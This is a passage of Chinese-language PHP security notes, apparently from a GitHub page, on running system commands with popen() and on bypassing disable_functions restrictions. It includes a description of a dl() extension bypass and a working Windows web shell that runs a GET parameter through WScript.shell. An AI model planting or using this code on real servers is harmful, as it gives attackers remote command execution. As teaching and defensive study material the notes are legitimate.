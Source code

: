 ![Alt text](34.png)
### popen()和proc_open()是不会直接返回执行结果的，而是返回一个文件指针，但是命令是已经执行了
```php
<?php
popen('echo 123 > 1.txt','w');//成功建立文件１.txt
?>
```

### 绕过禁止命令执行
#### 1.（高版本 默认　enable_dl＝off)
```
php提供了一个扩展模块功能，使用dl函数能包含一个扩展模块。
类似.so或者想windows下的dll文件。可以自定义函数来调用linux命令。无视Disable_functions限制。
```
#### 1．window com组件(php 5.4)(高版本扩展要自己添加)
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c ".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
##### 要开启才行
![Alt text](7.png)
##### 结果为